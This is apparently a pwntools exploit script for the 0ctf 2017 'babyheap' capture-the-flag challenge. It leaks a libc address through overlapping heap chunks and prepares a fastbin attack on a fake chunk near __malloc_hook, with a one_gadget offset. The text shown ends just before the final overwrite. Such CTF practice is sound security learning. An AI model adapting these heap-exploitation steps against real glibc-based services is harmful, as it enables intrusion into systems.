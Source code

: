 exp:

```
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

# io = process('./0ctf_2017_babyheap')
io = remote('node3.buuoj.cn', 27412)
libc = ELF('./libc-2.23.so')

def add(size):
    io.sendlineafter('Command: ', '1')
    io.sendlineafter('Size: ', str(size))

def edit(index, size, content):
    io.sendlineafter('Command: ', '2')
    io.sendlineafter('Index: ', str(index))
    io.sendlineafter('Size: ', str(size))
    io.sendafter('Content: ', content)

def delete(index):
    io.sendlineafter('Command: ', '3')
    io.sendlineafter('Index: ', str(index))

def display(index):
    io.sendlineafter('Command: ', '4')
    io.sendlineafter('Index: ', str(index))
    io.recvuntil('Content: \n')

add(0x10) # 0
add(0x10) # 1
add(0x80) # 2
add(0x10) # 3

payload = 'a' * 0x10 + p64(0) + p64(0xb1)

edit(0, len(payload), payload)
# gdb.attach(io)

delete(1)

add(0x10) # 1

display(2)
unsortbin = u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))

print(hex(unsortbin))

libc_base = unsortbin - 88 - 0x10 - libc.symbols["__malloc_hook"]

one = 0x4526a + libc_base
fake_chunk = unsortbin - 88 - 0x10 - 0x23

add(0x80) # 4
add(0x60) # 5
add(0x10) # 6
delete(5)

payload = 'a' * 0x80 + p64(0) + p64(0x71) + 'a' * 0x10 + p64(0) + p64(0x71) + p64(fake_chunk)

edit(4, len(payload), payload)

add(0x60) # 5
```